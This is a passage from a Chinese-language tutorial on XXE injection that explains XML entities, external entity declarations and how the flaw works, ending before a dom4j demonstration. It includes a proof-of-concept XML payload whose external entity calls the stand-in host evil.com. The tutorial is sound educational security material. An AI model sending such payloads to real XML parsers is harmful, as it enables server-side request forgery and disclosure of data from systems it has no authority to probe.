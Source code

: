 # XXE注入漏洞概述

![Category](https://img.shields.io/badge/category-methodology-blue.svg)
![Research](https://img.shields.io/badge/research-web_security-blue.svg)
![Vuln Type](https://img.shields.io/badge/vuln_type-xxei-red.svg)
![Timestamp](https://img.shields.io/badge/timestamp-1533090210-lightgrey.svg)
![Progress](https://img.shields.io/badge/progress-100%25-brightgreen.svg)

<sub>* 首发于京东JSRC《安全小课堂》第105期，稍作修改。</sub>

### 基础知识

XML外部实体注入 *（XML External Entity Injection，以下简称XXE注入）* 是一种针对解析XML文档的应用程序的注入类型攻击。当恶意用户在提交一个精心构造的包含外部实体引用的XML文档给未正确配置的XML解析器处理时，该攻击就会发生。XXE注入可能造成敏感信息泄露、拒绝服务、SSRF、命令执行等危害，现已加入OWASP Top 10豪华套餐。

为了照顾刚入门的小伙伴，我们先花点时间简单解释一下什么是XML实体：

由于XML是由元素节点组成的树结构，元素之间可存在嵌套关系，因此XML解析器会对XML文档中所有文本也进行解析。为了能够在文本中兼容一些特殊字符 *（默认有`<`、`>`、`&`、`'`和`"`）* ，XML允许在DTD中声明实体并在文本中进行引用，如`<`预定义的实体引用是`&lt;`，是不是有些眼熟？著名的`&nbsp;`其实也是HTML预定义的一个实体引用。

XML实体又分为内部实体和外部实体，声明方式如下：

```xml
<!ENTITY name "value">
```

```xml
<!ENTITY name SYSTEM "URI">
<!ENTITY name PUBLIC "PUBLIC_ID" "URI">
```

外部实体声明中，分为`SYSTEM`和`PUBLIC`，前者表示私有资源 *（但不一定是本机）* ，后者表示公共资源。实体声明之后就可以在文本中进行引用了：

```xml
<foo>&xxe;</foo>
```

### 漏洞原理

XXE注入的漏洞原理很简单，其实就是让服务端在解析XML文档时，对声明的外部实体进行引用，实际触发攻击者预定的文件、网络等资源操作，甚至是执行系统命令。

我们用一个常见的PoC来简单分析一下XXE注入漏洞的触发过程：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "http://evil.com/xxedetector">
]>
<foo>&xxe;</foo>
```

这个PoC的预期是被攻击服务器将会向恶意站点上的资源发起HTTP请求。

这里选择Java中比较流行的dom4j来模拟被攻击服务器对该XML文档进行解析，设置其Reader为SAX，这样dom4j将使用JDK的SAXParser作为内部XML解析器：
